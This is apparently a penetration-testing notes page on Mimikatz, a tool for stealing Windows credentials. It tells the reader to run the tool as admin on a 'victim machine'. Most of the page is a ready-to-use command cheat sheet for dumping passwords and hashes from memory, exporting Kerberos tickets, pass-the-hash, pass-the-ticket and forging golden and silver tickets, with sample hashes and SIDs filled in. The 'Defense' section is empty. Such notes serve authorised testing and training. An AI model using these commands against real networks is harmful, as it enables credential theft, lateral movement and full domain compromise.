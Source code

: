 # Mimikatz

Mimikatz is an incredibly effective offensive security tool developed by gentilkiwi. It is a post-exploitation tool that dumps passwords from memory, as well as hashes, PINs and Kerberos tickets. Other useful attacks are pass-the-hash, pass-the-ticket or building Golden Kerberos tickets. This makes post-exploitation lateral movement within a network easy for attackers. Mimikatz is a very powerful tool when attacking,or defending Windows Systems, it can also play with certificates or private keys, vault and more.

Mimikatz can only dump credentials and password hashes if it is executed from the context of a privilege user, like local admin.

[Mimikatz github(source)](https://github.com/gentilkiwi/mimikatz)

[Mimikatz binaries](https://github.com/gentilkiwi/mimikatz/releases/tag/2.2.0-20210810)

## Usage

Simply run the .exe as admin from where you can get the executable onto the victim machine.

![](../../.gitbook/assets/2022-04-11_01-24.png)

From here there is a multitude of things we can run. Examples:

* `privilege::debug` - get debug rights (this or Local System rights is required for many Mimikatz commands).
* `sekurlsa::logonpasswords`[ ](https://adsecurity.org/?page_id=1821#SEKURLSALogonPasswords)- lists all available provider credentials. This usually shows recently logged on user and computer credentials.

![](../../.gitbook/assets/2022-04-11_01-29.png)

* `sekurlsa::kerberos` - List Kerberos credentials for all authenticated users (including services and computer account)
* `sekurlsa::tickets` - Lists all available Kerberos tickets for all recently authenticated users, including services running under the context of a user account and the local computer’s AD computer account. Unlike kerberos::list, sekurlsa uses memory reading and is not subject to key export restrictions. sekurlsa can access tickets of others sessions (users).
* `kerberos::golden` – create golden/silver/trust tickets
* `kerberos::list` – List all user tickets (TGT and TGS) in user memory. No special privileges required since it only displays the current user’s tickets.Similar to functionality of “klist”.
* `kerberos::ptt` – pass the ticket. Typically used to inject a stolen or forged Kerberos ticket (golden/silver/trust).
* `token::elevate` – impersonate a token. Used to elevate permissions to SYSTEM (default) or find a domain admin token on the box
* `token::elevate /domainadmin` – impersonate a token with Domain Admin credentials.

and a lot more listed on the [Mimikatz Wiki](https://github.com/gentilkiwi/mimikatz/wiki)

## Quick Reference

Enable debug privileges

```
privilege::debug
```

## sekurlsa

Extract credentials from the system's memory

```
sekurlsa::logonpasswords
```

```
sekurlsa::logonPasswords full
```

dump and export Kerberos tickets from memory

```
sekurlsa::tickets /export
```

Pass the hash - PTH

```
sekurlsa::pth /user:Administrateur /domain:winxp /ntlm:f193d757b4d487ab7e5a3743f038f713 /run:cmd
```

## kerberos

dump and export Kerberos tickets from memory associated with active user sessions

```
kerberos::list /export
```

Pass the ticket - PTT

```
kerberos::ptt c:\chocolate.kirbi
```

Create a Golden Ticket&#x20;

```
kerberos::golden /admin:administrateur /domain:chocolate.local /sid:S-1-5-21-130452501-2365100805-3685010670 /krbtgt:310b643c5316c8c3c70a10cfb17e2e31 /ticket:chocolate.kirbi
```

### TGT

Interact with and manipulate Kerberos tickets

```
kerberos
```

## ekeys

Dump encryption keys from the system's memory

```
sekurlsa::ekeys
```

## DPAPI

Extract and decrypt credentials protected by DPAPI (Data Protection API) from memory

```
sekurlsa::dpapi
```

## Silver / Golden Ticket



```
kerberos::golden /user:utilisateur /domain:chocolate.local /sid:S-1-5-21-130452501-2365100805-3685010670 /krbtgt:310b643c5316c8c3c70a10cfb17e2e31 /id:1107 /groups:513 /ticket:utilisateur.chocolate.kirbi
```



```
kerberos::golden /domain:chocolate.local /sid:S-1-5-21-130452501-2365100805-3685010670 /aes256:15540cac73e94028231ef86631bc47bd5c827847ade468d6f6f739eb00c68e42 /user:Administrateur /id:500 /groups:513,512,520,518,519 /ptt /startoffset:-10 /endin:600 /renewmax:10080
```



```
kerberos::golden /admin:Administrator /domain:CTU.DOMAIN /sid:S-1-1-12-123456789-1234567890-123456789 /krbtgt:deadbeefboobbabe003133700009999 /ticket:Administrator.kiribi 
```

## Defense

COMING SOON
